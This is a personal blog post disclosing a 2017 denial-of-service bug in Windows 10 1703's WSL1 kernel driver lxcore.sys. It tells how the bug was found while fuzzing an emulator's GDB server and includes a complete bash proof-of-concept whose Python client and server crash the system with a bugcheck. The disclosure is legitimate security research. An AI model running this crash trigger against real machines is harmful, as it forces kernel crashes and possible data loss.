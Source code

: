 ```yaml
---
id: 438
title: 'Babesia – Windows 10 1703 DoS in lxcore'
date: '2020-01-10T20:04:36+01:00'
author: Martin
layout: post
guid: 'https://www.sundhaug.com/?p=438'
permalink: /w10-1703-bugcheck-in-lxcore/
categories:
    - Hacking
---
```


## Timeline

{% highlight text %}
Found at or before May 2nd, 2017
Reported May 2nd~3rd, 2017
Fixed in 10.0.15063.XXX 2017-XX-XX
{% endhighlight %}

## Demo

{% youtube i99ut6KgdvQ %}
## Story

Years ago, while trying to fuzz the GDB-server-implementation in the Nintendo® Game Boy Advance-emulator VBA-M (Visual-Boy Advance), I came upon a few issues. For one, fuzzing on Windows 10, my primary operating-system, was not as easy as I’d like it to. Now this was a fairly easy problem to solve, as Microsoft had just a few months before released their first stable release of the Windows Subsystem for Linux (IIRC, still called Bash on Windows at the time). The second issue, was that I couldn’t find an appropriate protocol-fuzzer for GDB. This required a bit more work, requiring me to write one myself in python. GDB treats a TCP-connection as a serial-port, meaning it reuses the GDB serial-protocol. The GDB serial-protocol is reasonably well documented, so this didn’t pose too many additional hours. Then, there was the big issue: My computer crashing.

<figure class="wp-block-image size-large">![In Norwegian: "Your PC ran into a problem and needs to restart. We're just collecting some error info, and then we'll restart for you.
...
Stop-code SYSTEM_THREAD_EXCEPTION_NOT_HANDLED
What failed: LXCORE.SYS"](https://i0.wp.com/www.sundhaug.com/wp-content/uploads/2020/01/image.png?resize=525%2C386&ssl=1)<figcaption>Picture of the bugcheck</figcaption></figure>A bugcheck, or Blue Screen Of Death, is triggered whenever the Windows kernel detects an error. VBA-M runs in user-mode, as does GDB, as does my python-based fuzzer. Nothing in user-mode should be able to cause a kernel crash and if it does, that’s a bug, and a potential security-issue.

So, now the questions become what’s triggered, where is it triggered, and how is it triggered.

Now, the first clue is in the bugcheck itself, on the bottom-most line: “LXCORE.SYS”. LXCORE.SYS, which was previously known as dates back to Microsofts Project Astoria, and is the core kernel-component of WSL1 (As the name suggests). So now we know what kernel-module is failing, and it’s not too surprising that it is the (then) relatively new WSL1.

The second clue? Well it happens when VBA-M has its GDB-server enabled, but not when it isn’t. Third, when the bugcheck is triggered, Windows writes a memory-dump to the C:\\-drive. The memory-dump includes everything that’s needed to find out what went wrong, including the stack-trace. The stack-trace, or the call-stack if you will, includes references to functions like: “LxpSocketInetStreamShutdownInternal”, “LxpSocketInetStreamFileReleaseInternal”, and “LxpSocketInetStreamAcceptWorkerRoutine”. These functions have a few words in common, such as “Lxp” (possibly LinuX Pico), “Inet” (indicating IP), and “Stream” (in context, TCP). The word “Accept” indicates that it likely has to do with the server accepting a connection.

## Exploit

Now, to test the hypothesis, we need to create the most basic possible “server”, and associated client. To accept a TCP-connection, you need to do three syscalls in a \*nix-system:

1. You need to bind the socket to a port
2. You need to listen on that socket
3. You need to accept the connection

When you do this, and have a client send data early, you end up with a bugcheck. Yay for crashing the PC.

The below exploit is very simple, it’s just a bash-program (with some flare of course), that writes a python client and a python server to disk, then runs both of them for a few seconds (assuming that if the bug is triggered, it’s relatively fast). If the program completes running for more than 1 minute, it’s assumed that the bugcheck has been fixed.

{% highlight bash %}
#!/bin/bash
function typewriter
{
    text="$1"
    for i in $(seq 0 $(expr length "${text}")) ; do
        echo -n "${text:$i:1}"
        sleep 0.003
    done
}

function hackify
{
    echo -e "\033[38;2;0;250;0m"
    echo -e "\033[48;2;0;000;0m"
}

typewriter "[ * ] Hackifying terminal"
for i in $(seq 3); do
    echo -n .
    sleep .3
done
hackify
clear
typewriter "[ * ] Terminal hackified"
sleep 1
clear

typewriter "|----------------------------------------|";echo
typewriter "|                                        |";echo
typewriter "|                Babesia                 |";echo
typewriter "|                                        |";echo
typewriter "|             by @sundhaug92             |";echo
typewriter "|                                        |";echo
typewriter "|----------------------------------------|";echo

echo
echo  3
echo "
import socket
import time
s = socket.socket()
s.bind(('0.0.0.0', 55555))
s.listen(1)
s.accept()
while True: time.sleep(1)" > server.py
sleep 1
echo 2
echo -e "
import socket
r = []
while True:
    s = socket.socket()
    s.connect(('localhost', 55555))
    s.send(b'A')
    r.append(s)" > client.py
sleep 1

echo 1
python server.py &
server_pid=$!
sleep 1

python3 client.py &
client_pid=$!
sleep 1
echo IMPACT

for i in $(seq 60); do
    echo -n .
    sleep 1
done

clear

typewriter "https://www.youtube.com/watch?v=w1--BxLy3lg#t=1m39s";echo
typewriter "^ We're still here'";echo
echo
typewriter "killing child-processes"
kill -9 $server_pid $client_pid

{% endhighlight %}

The exploit is named after Babesia, which is a single-cell parasite.